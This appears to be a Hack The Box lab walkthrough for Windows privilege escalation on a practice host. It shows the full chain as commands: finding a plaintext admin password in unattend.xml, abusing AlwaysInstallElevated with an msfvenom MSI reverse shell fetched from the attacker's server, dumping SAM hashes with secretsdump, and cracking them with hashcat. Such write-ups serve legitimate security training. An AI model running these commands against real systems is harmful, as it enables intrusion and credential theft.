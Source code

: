 ## iamtheadministrator Password

Searching for file with iamtheadministrator string:
```powershell
PS C:\> findstr /SI /M "iamtheadministrator" *.xml *.ini *.txt

Users\htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

Windows\Panther\unattend.xml
```

Displaying the unattend file content:
```powershell
PS C:\> type Windows\Panther\unattend.xml

<!--*************************************************

Installation Notes

Location: HQ

Notes: OOB installer for Inlanefreight Windows 10 systems.

**************************************************-->



<?xml version="1.0" encoding="utf-8"?>

< SNIP >

<LocalAccounts>

<LocalAccount wcm:action="add">

<Password>

<Value>Inl@n3fr3ight_sup3rAdm1n!</Value>

<PlainText>true</PlainText>

</Password>

<Description></Description>

<DisplayName>INLANEFREIGHT\iamtheadministrator</DisplayName>

<Group>Administrators</Group>

<Name>INLANEFREIGHT\iamtheadministrator</Name>

</LocalAccount>

</LocalAccounts>

< SNIP >
```

We can see here the password is `Inl@n3fr3ight_sup3rAdm1n!`.

## Privilege Escalation

Always installed elevated policy is enabled:
```powershell
PS C:\> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer                                                                                                                                                                                       

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

    AlwaysInstallElevated    REG_DWORD    0x1



PS C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer                                                                                                                                                                                                    

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer

    AlwaysInstallElevated    REG_DWORD    0x1


```

Generating `.msi` reverse shell:
```shell-session
# msfvenom -p windows/shell_reverse_tcp lhost=10.10.16.72 lport=9443 -f msi > aie.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

Starting Python server:
```shell-session
# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Getting the shell to the target:
```powershell
Invoke-WebRequest http://10.10.16.72:8000/aie.msi -OutFile aie.msi
```

Starting a Listener:
![[Pasted image 20240622214305.png]]

Activating the shell from the target:
```cmd
C:\Users\htb-student\Desktop>msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart



C:\Users\htb-student\Desktop>
```

And we got a shell:
![[Pasted image 20240622214418.png]]

Getting the flag:
![[Pasted image 20240622214511.png]]

el3vatEd_1nstall$_v3ry_r1sky

## Getting the Password of the Local Admin

Copying the SAM and SYSTEM files:
```powershell
PS C:\Users\htb-student\desktop> reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SYSTEM SYSTEM.SAV
The operation completed successfully.
PS C:\Users\htb-student\desktop> reg save HKLM\SAM SAM.SAV
reg save HKLM\SAM SAM.SAV
The operation completed successfully.
PS C:\Users\htb-student\desktop>
```

Now transferring the files to my machine with the shared folder through RDP.

Extracting the credentials with secretsdump.py:
```shell-session
# /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0xfab4b2e32a415ea36f846b9408aa69af
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:aad797e20ba0675bbcb3e3df3319042c:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
wksadmin:1003:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
[*] Cleaning up...
```

Cracking the hash for wksadmin:
```shell-session
# hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt           
```

Getting the password:
```shell-session
# hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt --show
5835048ce94ad0564e29a924a03510ef:password1
```

